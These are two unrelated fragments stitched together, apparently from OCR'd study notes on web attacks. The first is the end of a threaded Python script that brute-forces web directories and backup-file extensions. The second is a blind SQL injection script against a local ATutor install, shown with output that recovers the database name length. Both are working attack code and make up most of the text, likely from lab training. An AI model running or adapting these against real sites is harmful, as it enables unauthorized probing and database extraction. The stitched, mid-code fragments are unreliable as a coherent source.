 ```python
                headers = {"User-Agent": user_agent}
                r = urllib.request.Request(url, headers=headers)
                response = urllib.request.urlopen(r)
                if len(response.read()):
                    print("[%d] => %s" % (response.code, url))
            except urllib.error.HTTPError as e:
                if e.code != 404:
                    print("!!! %d => %s" % (e.code, url))
                pass


word_queue = build_wordlist(wordlist_file)
file_extensions = [".php", ".bak", ".orig", ".inc"]

for i in range(threads):
    t = threading.Thread(target=dir_bruter, args=(file_extensions,))
    t.start()
```

---

- Retrieving the length of database name
> - Script:
> ```python
> import multiprocessing as mp
> import requests
>
> target = "http://localhost/atutor/mods/_standard/social/index_public.php"
>
> def db_length(number):
>     payload = f"te')/**/or/**/(length(database()))={number}#"
>     param = {'q': payload}
>     r = requests.get(target, param)
>     content_length = int(r.headers['Content-length'])
>     if content_length > 20:
>         print(number)
>
> if __name__ == "__main__":
>     print('[*] Retreiving Database Length: \n[*] Database length: ', end=' ')
>     processes = []
>     for number in range(30):
>         p = mp.Process(target=db_length, args=[number])
>         p.start()
>         processes.append(p)
>     for process in processes:
>         process.join()
>
>     
> ```
> - Output:
> ```
>  python .\atutor_dblength.py
> [*] Retreiving Database Length:
> [*] Database length: 6
> ```

---